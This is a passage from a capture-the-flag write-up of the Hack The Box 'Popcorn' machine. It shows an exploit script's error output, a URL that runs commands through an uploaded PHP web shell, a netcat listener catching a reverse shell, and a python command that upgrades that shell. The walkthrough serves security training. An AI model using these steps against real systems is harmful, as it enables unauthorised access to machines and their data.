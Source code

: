 ```bash
Traceback (most recent call last):
  File "/home/biscottidiskette/my_data/machines/popcorn/rce.py", line 151, in <module>
    main()
  File "/home/biscottidiskette/my_data/machines/popcorn/rce.py", line 137, in main
    accessShell(args.url, path)
  File "/home/biscottidiskette/my_data/machines/popcorn/rce.py", line 114, in accessShell
    command 	= raw_input("$ ")
               ^^^^^^^^^
NameError: name 'raw_input' is not defined
```
{% endraw %}

<br />
Notice the error in the output.  Navigate to the url indicated in the Shell Uploaded: line.  For the c= parameter, use whoami to test remote code execution.

<a href="http://popcorn.htb/torrent//upload/d042db4335a8c8884da040e3ab4dc2df6c3efcea.php?c=whoami">http://popcorn.htb/torrent//upload/d042db4335a8c8884da040e3ab4dc2df6c3efcea.php?c=whoami</a>
<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/popcorn/testrce.png" title="Test the RCE" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Use revshells to generate a reverse shell.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/popcorn/revshells.png" title="Revshells" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://www.revshells.com/">Revshells</a>

<br />
Update the c parameter with the payload from revshells.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/popcorn/crevshell.png" title="Attack!!!" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Check the listener and catch the shell.  Use the python to upgrade the shell.

{% raw %}
```bash
└──╼ [★]$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.6] 42132
python -c 'import pty; pty.spawn("/bin/bash");'
www-data@popcorn:/var/www/torrent/upload$ 
```
{% endraw %}
